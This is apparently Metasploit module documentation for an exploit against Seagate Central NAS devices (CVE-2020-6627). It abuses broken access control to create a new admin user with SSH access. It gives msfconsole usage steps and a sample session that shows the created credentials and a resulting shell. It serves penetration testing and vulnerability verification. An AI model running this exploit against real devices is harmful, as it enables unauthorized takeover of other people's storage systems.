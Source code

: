 ## Description
This module exploits the broken access control vulnerability in Seagate Central External NAS Storage device. (CVE-2020-6627)
Subject product suffers several critical vulnerabilities such as broken access control. It makes it possible to change the device state 
and register a new admin user which is capable of SSH access.

## Vulnerable Application 
Seagate Central is your personal cloud, providing a centralized location to store your files
from your Windows and Mac, mobile devices, and social networks. Play movies and music
and view photos from Seagate Central throughout your home on your smart TV, game
console, and tablet, and on an Internet-connected mobile device while on the road. With
Seagate Central, you can keep your digital life centralized and organized. 
read more : https://www.seagate.com/files/www-content/support-content/external-products/seagate-central/en-us/seagate-central-user-guide-us.pdf

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/linux/http/seagate_central_ssh_user_add`
  4. Do: `set rhost <ip>`
  5. Do: `check`
```
[+] 192.168.1.20:80 The target is vulnerable.
```

## Scenarios
```
msf5 > use exploit/linux/http/seagate_central_ssh_user_add 
msf5 exploit(linux/http/seagate_central_ssh_user_add) > set rhost 192.168.1.27
rhost => 192.168.1.27
msf5 exploit(linux/http/seagate_central_ssh_user_add) > run

[*] Current device state: social
[+] State successfully changed !
[*] Creating new admin user...
[*] User: jesse3233
[*] Pass: OdSvdFcT
[+] 192.168.1.27:80 - Login Successful (jesse3233:OdSvdFcT)
[*] Found shell.

id
uid=1001(jesse3233) gid=1001
```